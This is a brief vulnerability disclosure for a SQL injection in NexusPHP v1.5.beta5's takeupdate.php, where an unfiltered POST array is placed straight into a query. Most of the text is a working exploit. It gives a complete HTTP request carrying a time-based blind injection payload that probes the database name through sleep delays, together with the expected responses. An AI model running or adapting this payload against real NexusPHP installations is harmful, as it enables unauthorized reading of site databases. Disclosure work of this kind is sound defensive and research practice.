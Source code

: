 ## nexusphp  takeupdate.php sqli
### powered by lijiangtao  from Anyuntec
### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
##  Vulnerability details
#### /nexusphp.v1.5.beta5.20120707/takeupdate.php   Line 14

```
if ($_POST['setdealt']){
$res = sql_query ("SELECT id FROM reports WHERE dealtwith=0 AND id IN (" . implode(", ", $_POST[delreport]) . ")");qlerr(__FILE__, __LINE__);
$user = mysql_fetch_array($r);
```

$_POST[delreport]    has not been filtered to cause injection

###  EXP：

```
POST /takeupdate.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Cookie: c_secure_uid=MQ%3D%3D; c_secure_pass=e52e548e638c2515f3f4c4ff1cee02ab; c_secure_ssl=bm9wZQ%3D%3D; c_secure_tracker_ssl=bm9wZQ%3D%3D; c_secure_login=bm9wZQ%3D%3D
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

setdealt=111&delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 
```

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 

The page will be delayed for 5 seconds  

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))=110,0,5 )) %23 

The page will be delayed for 0 seconds  







